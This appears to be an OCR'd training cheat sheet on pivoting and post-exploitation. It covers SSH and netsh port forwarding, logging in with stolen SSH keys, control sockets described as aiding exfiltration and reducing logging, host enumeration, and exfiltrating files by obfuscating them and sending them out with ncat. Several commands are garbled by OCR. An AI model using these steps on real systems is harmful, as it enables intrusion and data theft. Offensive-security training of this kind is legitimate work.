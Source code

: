 # Pivoting & Redirection
During the lesson we will review the following topics:
    Control Sockets
    Enumeration
    Exfiltration

# SSH Overview
## Basic Characteristics
    Access remote systems using an SSH server as a proxy
    Securely transfer files
    Execute commands on a remote system
    VPN using the SSH protocol as a transport
    Forwarding the X Window System display to the client system

# Linux Targets
## Local Port Forward
-L <USER PORT ON LOCAL>:TARGETHOST:TARGETPORT

## Remote Port Forward
ssh USER@<PIVOT IP> -R <REMOTE PORT ON PIVOT>:TARGETHOST:TARGETPORT

# Windows Targets
## Port Proxying
netsh interface portproxy add v4tov4 listenport=<LocalPort> listenaddress=<LocalIP> connectport=<TargetPort> connectaddress=<TargetIP> protocol=tcp
netsh interface portproxy show all
netsh interface portproxy delete v4tov4 listenport=<LocalPort>
netsh interface portproxy reset

# SSH Keys
    SSH keys are asymetric(public/private) key pairs that can be used to authenticate a user to a system in combination with or to replace the use of a password
    If you are able to find a users private ssh key it can potentially be used to gain access to other systems

## Using Stolen SSH Keys
### Bring private key to your own box
### On your box:
chmod 600 /home/student/stolenkey
ssh -i /home/student/stolenkey jane@1.2.3.4
#### ssh as the user who is the original key owner

# Control Sockets
## Benefits Provided Include:
    Multiplexing
    Data exfiltration
    Less logging

# Control Sockets (config)
## Two main ways to configure:
### Command Line Method
ssh -M -S /tmp/s root@<IP ADDRESS> <TUNNEL COMMANDS -R or -L>

ssh -S /tmp/s x@x
scp -o 'ControlPath=/tmp/s' x@x:<Path>

### Configuration File Method (~/.ssh/ssh_config)
HostName *
ControlPath ~/.ssh/controlmasters/%r@%h:%p
ControlMaster auto
ControlPersist 10m

# Local Host Enumeration

# User Enumeration
    Why is this important?
    What does it provide?

## Windows
net user

## Linux
cat /etc/passwd
SUDO -L
CAT /ETC/HOSTS
# Process Enumeration
    Why is this important?
    What does it provide?

## Windows
tasklist /v
get ciminstance
htop
top

## Linux
ps -elf

# Service Enumeration
    Why is this important?
    What does it provide?

## Windows
tasklist /svc

## Linux
chkconfig                   # SysV
systemctl --type=service    # SystemD
crontab

# Network Connection Enumeration
    Why is this important?
    What does it provide?

## Windows
ipconfig /all

## Linux
ifconfig -a      # SysV (deprecated)
ip a             # SystemD

# Data Exfiltration

## Session Transcript
 ssh <user>@<host> | tee

## Obfuscation (Windows)
type <file> | %{$_ -replace 'a','b' -replace 'b','c' -replace 'c','d'} > translated.out
certutil -encode <file> encoded.b64

## Obfuscation (Linux)
cat <file> | tr 'a-zA-Z0-9' 'b-zA-Z0-9a' > shifted.txt
cat <file>> | base64

## Encrypted Transport
scp <source> <destination>
ncat --ssl <ip> <port> < <file>
    
